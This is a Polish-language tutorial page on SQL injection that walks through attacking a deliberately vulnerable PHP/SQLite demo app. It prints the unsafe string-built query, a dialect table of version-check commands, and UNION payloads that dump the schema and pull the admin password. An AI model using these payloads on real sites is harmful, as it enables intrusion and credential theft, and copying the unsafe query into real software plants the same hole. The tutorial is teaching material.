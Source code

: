 # Atak SQL injection

Wszyscy znamy strony, które zawierają w sobie formularze czy przekazują w inny sposób wszelakie parametry. A co jeśli parametry te nie są prawidłowo przetworzone po stronie serwera i bezpośrednio trafiają do zapytań SQL?

## Przykład 

Weźmy na warsztat [przykładową aplikację]({{ data.repo_url }}/tree/master/examples/sqlinjection) wykorzystującą bazę danych SQLlite3.

Jest to prosta strona z formularzem, do którego jeśli podamy imię to zwróci nam czy jest ono śmieszne czy nie.

![Aplikacja PHP](/assets/images/web/sqlinjection/php_app.png)

Po wpisaniu imienia, jest ono wysyłane do serwera php w celu dalszej obróbki. Tak wygląda fragment kodu odpowiadający za zapytanie do bazy danych:

```php
$name = $_GET["name"];
$db = new SQLite3('example.db');
$query = "SELECT is_funny FROM funny as f, users as u JOIN users ON f.user_name=u.user_name WHERE u.user_name='$name'";
$result = @$db->query($query);
```

Po wpisaniu `admin` otrzymujemy wynik `not funny`. 

Na początek należy przeprowadzić weryfikację czy atak SQLi jest możliwy. Można to zrobić przez podanie `'` zamiast parametru.

![Aplikacja PHP - podatna?]({{ data.site_url }}/assets/images/web/sqlinjection/php_app_check.png)

Informacja ta mówi nam o tym, że jest to strona podatna na atak. Następnym krokiem będzie weryfikacja z jakim typem bazy danych mamy do czynienia. Można to zrobić przez sprawdzenie wersji oprogramowania - polecenie to różni się między dialektami

| Dialekt  | Polecenie  | 
|---|---|
| MySQL  | `SELECT @@version`  | 
| Oracle | `SELECT * FROM v$version`  |
| PostgreSQL | `SELECT version()`  | 
| Sqlite3 | `SELECT sqlite_version()` |

Wykonać to można przez manipulację poleceniem `UNION`, który łączy wyniki z dwóch lub więcej zapytań SQL w jedno. W tym przypadku będzie to 
```sql
admin' UNION SELECT sqlite_version(); --
```

Polecenie to zostanie po stronie serwera zamienione w:
```sql
SELECT is_funny FROM funny as f, users as u 
    JOIN users ON f.user_name=u.user_name 
    WHERE u.user_name='admin' 
UNION SELECT sqlite_version(); --'
```

![Aplikacja PHP - podatna?]({{ data.site_url }}/assets/images/web/sqlinjection/php_app_version.png)

Dzięki temu wiemy, że jest to baza Sqlite3. Następnym krokiem będzie ekstrakcja nazw tabel i kolumn. Zrobić to można poleceniem 
```sql
SELECT sql from sqlite_master WHERE type="table"; 
```
które w tym przypadku przybierze formę
```sql
admin' UNION SELECT sql from sqlite_master; --'
```

![Aplikacja PHP - kolumny]({{ data.site_url }}/assets/images/web/sqlinjection/php_app_columns.png)

Jako, że `UNION` wymaga takiej samej ilości kolumn w wyniku obu zapytań, dane z bazy będzie można wyciągać tylko pojedyńczo. Przykładowo hasło użytkownika `admin` pozyskamy stosując polecenie
```sql
admin' UNION SELECT password from users WHERE user_name = 'admin'; --'
```

![Aplikacja PHP - haslo]({{ data.site_url }}/assets/images/web/sqlinjection/php_app_password.png)

